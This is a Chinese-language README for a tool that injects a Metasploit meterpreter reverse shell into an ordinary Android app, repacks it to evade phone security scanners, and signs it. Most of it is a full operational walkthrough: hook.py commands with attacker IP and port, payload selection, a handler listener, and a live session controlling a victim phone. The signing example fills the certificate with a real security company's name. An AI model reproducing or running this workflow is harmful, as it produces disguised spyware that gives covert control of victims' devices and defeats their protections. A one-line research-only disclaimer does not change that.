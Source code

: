 # 520_APK_HOOK


## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。


## 重点说明



* 项目目前由于加固脚本问题, 目前只支持单classes.dex文件操作.

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.



## 项目依赖



* 本项目参考以下项目

* [Java层DEX一键加固脚本](https://github.com/yongyecc/apksheller)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)



## 使用

> 使用`Move to iOS_v3.2.0_apkfab.com.apk`测试可以使用。


1. 使用Linux或者macos主机, 安装python3, openjdk8, metasploit-framework.
2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh
➜  ~ cd 520apkhook
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK
......

// --host 指定msf远控的IP
// --lport 指定msf远控端口
// -n 指定被注入的apk文件路径
```

3. 生成中需要指定msf payload类型

```sh
➜  520apkhook python3 hook.py --lhost 192.168.0.21 --lport 1433 -n ./base.apk

[*] 创建随机字符串,用来修改msf payload!
[+] 生成成功!

[*] 检查电脑上的开发环境
================================

[:] NOTE : 请确认安装jdk8环境!

[*] 检查 : Jdk版本
javac 1.8.0_282
[+] JDK - OK

[*] 检查 : msfvenom
[+] msfvenom - OK

   ====================================
   [*] Available Types of Payload
   ====================================
   (1) android/meterpreter/reverse_tcp
   (2) android/meterpreter/reverse_http
   (3) android/meterpreter/reverse_https

[?] 选择msf payload (1/2/3): 1
[-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
[-] No arch selected, selecting arch: dalvik from the payload
No encoder specified, outputting raw payload
Payload size: 10192 bytes
......
```

4. apk签名时需要输入证书的相关信息.

```sh
......
[*] 将加固后的dex文件替换apk中的class dex!
'classes.dex'...
[+] 插入成功 !
[+] app加固完成

[*] 创建app签名文件!
您的名字与姓氏是什么?
 [Unknown]:  zhouhongyi
您的组织单位名称是什么?
 [Unknown]:  360
您的组织名称是什么?
 [Unknown]:  qihu360
您所在的城市或区域名称是什么?
 [Unknown]:  beijing
您所在的省/市/自治区名称是什么?
 [Unknown]:  beijing
该单位的双字母国家/地区代码是什么?
 [Unknown]:  china
CN=zhouhongyi, OU=360, O=qihu360, L=beijing, ST=beijing, C=china是否正确?
 [否]:  y
......
```



5. 在生成apk文件后, 目录下会产生`Final_Infected.apk`和`handler.rc`

```sh
➜  520apkhook ls
Final_Infected.apk base.apk           hook.py            libs
Readme.md          handler.rc         images
```



6. 使用msfconsole加载handler.rc进行服务端监听

```sh
➜  520apkhook msfconsole -r handler.rc
# cowsay++
____________
< metasploit >
------------
      \   ,__,
       \  (oo)____
          (__)    )\
             ||--|| *


      =[ metasploit v6.0.42-dev-b177452c898ad956be8540a40c805bf52310c234]
+ -- --=[ 2124 exploits - 1137 auxiliary - 361 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set payload android/meterpreter/reverse_tcp
payload => android/meterpreter/reverse_tcp
resource (handler.rc)> set LHOST 0.0.0.0
LHOST => 0.0.0.0
resource (handler.rc)> set LPORT 1433
LPORT => 1433
resource (handler.rc)> set exitonsession false
exitonsession => false
resource (handler.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 0.0.0.0:1433
msf6 exploit(multi/handler) >
......
```

7. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![show](images/show.webp)

8. 成功后, 可以在msf中进行远程控制

```sh
msf6 exploit(multi/handler) > sessions

Active sessions
===============

 Id  Name  Type                        Information         Connection
 --  ----  ----                        -----------         ----------
 1         meterpreter dalvik/android  u0_a53 @ localhost  192.168.0.21:1433 -> 192.168.0.68:65133 (192.168.16
                                                           4.194)

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : localhost
OS          : Android 11 - Linux 5.4.61-********+ (armv81)
Meterpreter : dalvik/android
meterpreter > ls
No entries exist in /data/user/0/com.zhangy.vphone/files
meterpreter > app_list
Application List
================

 Name                                Package                               Running  IsSystem
 ----                                -------                               -------  --------
 Android System WebView              com.android.webview                   false    true
 Android 系统                          android                               false    true
 Android动态壁纸                         com.android.wallpaper                 false    true
 Arm Pro                             armadillo.studio                      false    false
 Black Hole                          com.android.galaxy4                   false    true
 Bluetooth MIDI Service              com.android.bluetoothmidiservice      false    true
 Call Log Backup/Restore             com.android.calllogbackup             false    true
 CaptivePortalLogin                  com.android.captiveportallogin        false    true
 HTML 查看程序                           com.android.htmlviewer                false    true
 Intent Filter Verification Service  com.android.statementservice          false    true
 KK谷歌助手                              io.kkzs                               false    true
 LOL GG                              com.hpdjyxsziq.sqmezcbpyf             false    false
 Live Wallpaper Picker               com.android.wallpaper.livepicker      false    true
 MT管理器                               bin.mt.plus                           false    false
 ......
```



## 不同手机安全管家对app安装时检测结果



* 华为

![huawei](images/huawei.jpg)

* 小米

![mi](images/mi.png)

* VIVO

![oppo](images/vivo.jpg)
